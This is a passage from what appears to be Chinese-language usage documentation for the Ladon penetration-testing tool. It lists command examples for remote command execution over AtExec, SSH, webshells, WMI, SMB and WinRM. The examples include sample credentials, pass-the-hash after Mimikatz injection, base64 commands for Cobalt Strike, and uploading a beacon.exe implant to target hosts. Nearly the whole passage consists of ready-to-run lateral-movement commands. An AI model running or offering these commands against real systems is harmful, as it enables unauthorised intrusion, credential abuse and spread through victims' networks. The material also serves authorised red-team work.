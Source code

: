 ##### 101 445端口 AtExec远程执行命令（非交互式）
```Bash
Ladon AtExec 192.168.1.8 k8gege k8gege520 whoami
```

##### 102 22端口 SshExec远程执行命令（非交互式）
```Bash
Ladon SshExec 192.168.1.8 k8gege k8gege520 whoami
Ladon SshExec 192.168.1.8 22 k8gege k8gege520 whoami
```

##### 103 JspShell远程执行命令（非交互式）9.3.0移除
Usage：Ladon JspShell type url pwd cmd<br>
```Bash
Ladon JspShell ua http://192.168.1.8/shell.jsp Ladon whoami
```

##### 104 WebShell远程执行命令（非交互式）9.3.0移除
```Bash
Usage：Ladon WebShell ScriptType ShellType url pwd cmd
Example: Ladon WebShell jsp ua http://192.168.1.8/shell.jsp Ladon whoami
Example: Ladon WebShell aspx cd http://192.168.1.8/1.aspx Ladon whoami
Example: Ladon WebShell php ua http://192.168.1.8/1.php Ladon whoami
Example: Ladon WebShell jsp 5 http://192.168.1.8/123.jsp Ladon whoami
获取系统版本信息 方便提权
Example: Ladon WebShell jsp 5 http://192.168.1.8/123.jsp Ladon OSinfo
```

##### 105 135端口 WmiExec2远程执行命令支持HASH （非交互式）支持文件上传
```Bash
Ladon WmiExec2 host user pass cmd whoami
Ladon WmiExec2 pth host cmd whoami		 先Mimikatz注入Hash，再pth执行命令
Base64Cmd for Cobalt Strike
Ladon WmiExec2 host user pass b64cmd dwBoAG8AYQBtAGkA
Ladon WmiExec2 host user pass b64cmd dwBoAG8AYQBtAGkA
Upload:
Ladon WmiExec2 host user pass upload beacon.exe ceacon.exe
Ladon WmiExec2 pth host upload beacon.exe ceacon.exe  先Mimikatz注入Hash，再pth执行命令
```

##### 106 445端口 SmbExec Ntlm-Hash非交互式远程执行命令(无回显)
```Bash
Ladon SmbExec 192.168.1.8 k8gege k8gege520 cmd whoami
Ladon SmbExec 192.168.1.8 k8gege k8gege520 b64cmd d2hvYW1p
```

##### 107 WinrmExec远程执行命令无回显（支持System权限）
```Bash
Ladon WinrmExec 192.168.1.8 5985 k8gege.org Administrator K8gege520 calc.exe
```

### 提权降权

![image](http://k8gege.org/k8img/Ladon/Study/Lpe.PNG)
